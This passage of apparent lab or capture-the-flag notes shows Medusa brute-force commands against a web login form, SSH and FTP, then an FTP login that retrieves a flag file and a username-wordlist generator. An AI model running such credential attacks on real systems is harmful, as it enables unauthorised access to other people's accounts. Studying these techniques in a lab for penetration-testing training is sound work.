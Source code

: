 **4. Web Form Brute-Force**

`medusa -h www.example.com -U users.txt -P passwords.txt -M web-form -m FORM:"username=^USER^&password=^PASS^:F=Invalid"`

- Target: www.example.com
- POSTs to a login form with username/password placeholders
- F=Invalid tells Medusa what failure message to look for

# Web Services:

**1. SSH Brute-Force:**

We know the username is sshuser and the target’s SSH service is on port 22.

`medusa -h 192.168.1.50 -n 22 -u sshuser -P 2023-200_most_used_passwords.txt -M ssh -t 3`

- -h 192.168.1.50 → target host IP
- -n 22 → SSH port
- -u sshuser → known username
- -P → password list
- -M ssh → SSH module
- -t 3 → 3 parallel attempts


**2. Discovering FTP Service**

Once inside via SSH, check for other services:

`netstat -tulpn | grep LISTEN`

**3. FTP Brute-Force**
 
We find an ftpuser directory — likely the username.

`medusa -h 192.168.1.50 -u ftpuser -P 2020-200_most_used_passwords.txt -M ftp -t 5`

- -M ftp → FTP module
- -t 5 → more parallel attempts for faster results

**4. FTP Login & File Retrieval**

<pre>ftp ftp://ftpuser:letmein@192.168.1.50
ftp> ls
ftp> get flag.txt
ftp> exit
cat flag.txt</pre>

# Custom Wordlists

**1. Username Generation – Username Anarchy:**

<pre>sudo apt install ruby -y
git clone https://github.com/urbanadventurer/username-anarchy.git
cd username-anarchy
./username-anarchy Jane Smith > jane_usernames.txt</pre>
